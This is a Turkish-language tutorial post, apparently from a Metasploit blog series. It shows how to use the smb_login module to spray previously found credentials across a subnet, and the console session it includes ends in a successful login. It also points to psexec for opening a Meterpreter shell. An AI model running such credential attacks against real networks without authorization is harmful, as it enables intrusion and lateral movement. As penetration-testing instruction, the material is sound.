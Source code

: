 ```yaml
---
draft: false

title:  'MSF İçinde SMB Login Kontrolü'
date: '2017-05-18T13:02:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Yaptığınız taramalarda, bir şekilde kullanıcı adı ve parola bulduğunuzu düşünüyorsunuz. Bu kullanıcı adı ve parolanın başka hangi servislerde kullanıldığını denemek isteyebilirsiniz. Bu noktada denenebilecek en mantıklı servis\_SMB\_olarak adlandırılan ağ üzerinde dosya paylaşım servisidir." 
 
url:  /tr/msf-icinde-smb-login-kontrolu/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Önceki yazılarımızda “Bilgi Toplama” modüllerinden bir kısmını gördük. IP ve Port tarama ile birlikte servislerin bulunmadı konularını ele aldık. Bir sonraki aşama “Zafiyet Taraması” olarak adlandırılır. Pentest aşamalarından “Bilgi Toplama” işlemleri ne kadar iyi ve sağlıklı yapılırsa, sonraki aşamalarda verim elde etmeniz de o kadar mümkün olacaktır.



Yaptığınız taramalarda, bir şekilde kullanıcı adı ve parola bulduğunuzu düşünüyorsunuz. Bu kullanıcı adı ve parolanın başka hangi servislerde kullanıldığını denemek isteyebilirsiniz. Bu noktada denenebilecek en mantıklı servis `SMB` olarak adlandırılan ağ üzerinde dosya paylaşım servisidir.



Aşağıdaki örnekte, `smb_login` modülü kullanılmakta ve önceden bulunan bir kullanıcı adı ve parola denenmektedir. Bu tarama türünde, hedef bilgisayar Windows ise dikkatli olmalısınız çünkü başarısız her deneme, sistem yöneticisine ikaz olarak iletilir. `smb_login` taramanın çok gürültü çıkarttığını bilmelisiniz.



Yaptığınız `smb_login` taramasında başarılı bir oturum açma gerçekleşirse, devamında `windows/smb/psexec` modülünü kullanarak `Meterpreter` shell açma denenebilir.


```bash
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   true             no        Try blank passwords for **all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   PASS_FILE                          no        File containing passwords, one per line
   PRESERVE_DOMAINS  true             no        Respect a username that contains a domain name.
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             445              yes       Set the SMB service port
   SMBDomain         WORKGROUP        no        SMB Domain
   SMBPass                            no        SMB Password
   SMBUser                            no        SMB Username
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for **a host
   THREADS           1                yes       The number of concurrent threads
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      true             no        Try the username as the password for **all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for **all attempts

msf auxiliary(smb_login) > set RHOSTS 192.168.1.0/24
RHOSTS => 192.168.1.0/24
msf auxiliary(smb_login) > set SMBUser victim
SMBUser => victim
msf auxiliary(smb_login) > set SMBPass s3cr3t
SMBPass => s3cr3t
msf auxiliary(smb_login) > set THREADS 50
THREADS => 50
msf auxiliary(smb_login) > run

> 192.168.1.100 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.111 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.114 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.125 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.116 - SUCCESSFUL LOGIN (Unix)
> Auxiliary module execution completed

msf auxiliary(smb_login) >
```



Örnek çıktıda görüldüğü gibi, `192.168.1.116` IP adresinde başarılı bir oturum açma işlemi gerçekleşmiştir.
